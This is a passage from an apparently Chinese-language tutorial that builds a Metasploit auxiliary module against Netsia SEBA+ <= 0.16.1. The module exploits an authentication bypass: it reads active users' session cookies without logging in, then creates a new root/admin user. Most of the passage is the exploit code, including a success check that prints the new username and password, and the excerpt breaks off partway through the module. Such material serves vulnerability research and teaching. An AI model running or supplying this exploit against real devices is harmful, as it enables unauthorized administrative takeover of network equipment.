 像上面这样的循环对于这个向量就足够了。最后，我们需要检查请求是否成功。

如果创建了所需的用户，它将提供信息并返回新创建的用户信息。

```
if res.code == 200 and res.body.include? '"SUCCESS"'  

         print_good("Excellent! User #`{`datastore["USERNAME"]`}` was added successfully with root, admin and default privileges.")

         print_good("Username : #`{`datastore["USERNAME"]`}`")

         print_good("Password : #`{`datastore["PASSWORD"]`}`")

         break

       End
```

### 漏洞利用实践

Auxiliary模块现在已完成，接下来我们将所有内容整合在一起：

```
##

# This module requires Metasploit: https://metasploit.com/download

# Current source: https://github.com/rapid7/metasploit-framework

##

 

class MetasploitModule &lt; Msf::Auxiliary

  include Msf::Exploit::Remote::HttpClient

 

  def initialize(info = `{``}`)

    super(update_info(info,

      'Name'           =&gt; 'Netsia SEBA+ &lt;= 0.16.1 Authentication Bypass and Add Root User' ,

      'Description'    =&gt; %q`{`

        This module exploits an authentication bypass in Netsia SEBA+, triggered by add new root/admin user.

        HTTP requests made to the "Active Sessions" section which can be accessed by root/admin user,

        can be performed without the need for any session(cookie) information.

        Therefore, the session cookie informations of the active users in the application can be read from the response content.

        A new authorized user can be created with the obtained cookie.

      `}`,

      'References'     =&gt;

        [
```
